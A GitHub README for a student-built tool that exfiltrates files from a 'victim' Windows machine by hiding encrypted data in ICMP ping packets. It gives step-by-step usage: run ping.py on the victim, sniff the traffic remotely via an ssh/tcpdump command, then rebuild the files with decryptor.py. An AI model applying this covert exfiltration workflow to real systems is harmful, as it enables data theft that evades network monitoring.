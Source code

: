 # Overview

Based on MITRE Tactics: T1572 Protocol Tunneling, T1030 Data Transfer Size Limits, T1567 Exfiltration Over Web Service, T1090 Multi-hop Proxy

Exfiltration of data in a restricted network environment. For a school project.

ICMP packets are usually used for troubleshooting network configurations or to check whether hosts are alive. We utilise this to send information or files out to other public endhosts in an encrypted way.

This is for testing purposes only. Use it at your own risk and only on authorised targets. Some parts of the source code are hard-coded to test functionality of the program, do take a look before executing.

## Topology 
Exfiltration of data scenario
![ICMP an0nymizer](https://user-images.githubusercontent.com/92675249/200108432-744d9d1a-0ef7-49f2-86c4-73efccf2072f.jpeg)

### Overview of an encrypted packet
![Screenshot_3](https://user-images.githubusercontent.com/91510432/199401514-62c5d4ef-88d5-4632-8312-259aee4c9328.png)


### Usage 
Two ways to run. 
- Through the exe file. You do not need to install python and its dependencies. 
- The normal python method. Debugging would be easier here if you are testing.

1. `pip3 install -r requirements.txt` [or pip install -r requirements.txt] (Only required if you use the python script method)

2. Move the Documents folder to your Desktop (Windows Victim)

3. Using another Linux machine. You can use VPN/proxychains here.
    - Move your private.pem key here.
    - Move decryptor.py here.

4. Sniffing of packets and decrypting it (Sniffing and reconstructing files or information)
    - If you are sniffing through SSH from a server: Run the command `ssh -i webserver.pem root@<ip address> tcpdump -U -s0 -w - 'not port 22' | wireshark -k -i -`
    - If you are sniffing through a normal private network: Run wireshark and save the pcap file.
    - Copy the temporary wireshark pcap filepath output
    - On the victim machine, execute the python command `python ./ping.py` OR run the ping.exe file located in the dist folder.
    - Monitor wireshark for ICMP pings with bigger than usual data blocks. Stop when all packets are sent
    - Run the command to start the reconstructing files with the filepath copied `python ./decryptor.py -p <paste copied filepath here>`

